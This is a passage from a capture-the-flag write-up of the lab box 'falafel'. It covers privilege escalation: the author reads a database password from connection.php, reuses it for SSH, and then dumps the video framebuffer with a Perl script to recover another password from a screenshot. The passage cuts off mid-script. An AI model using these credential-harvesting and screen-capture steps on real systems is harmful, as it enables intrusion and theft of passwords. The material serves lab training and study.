 

Looking around the files on the webserver we see a password in connection.php that is being reused for ssh:
```php
www-data@falafel:/var/www/html$ cat connection.php
cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```
So we can ssh in and see this moshe user is part of the video group. This group owns some interesting files, mainly this framebuffer0 which appears to be a video capture we can convert to an image file and view. To learn about framebuffers check out the wikipedia page https://en.wikipedia.org/wiki/Linux_framebuffer
```bash
$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
$ find / -group 44 -exec ls -ld {} \; 2> /dev/null
crw-rw---- 1 root video 29, 0 Jun 17 07:55 /dev/fb0
crw-rw----+ 1 root video 226, 0 Jun 17 07:55 /dev/dri/card0
crw-rw----+ 1 root video 226, 128 Jun 17 07:55 /dev/dri/renderD128
crw-rw---- 1 root video 226, 64 Jun 17 07:55 /dev/dri/controlD64
```

We can follow this blog post to get a screen shot from a framebuffer: https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/. We could also just open it as raw image data in Gimp and set the resolution.

First copy the framebuffer as raw data:
```
moshe@falafel:~$ cat /dev/fb0 > screen.raw
```
Next we need the resolution:
```
moshe@falafel:~$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```
Then we can run this perl script from the above blog post back on kali and create a .png file from the raw data. Another ssh password is in our new image.
```perl
#!/usr/bin/perl -w
 
$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;
 
open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";
 
printf OUT "P6%d %d\n255\n", $w, $h;
 
while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
```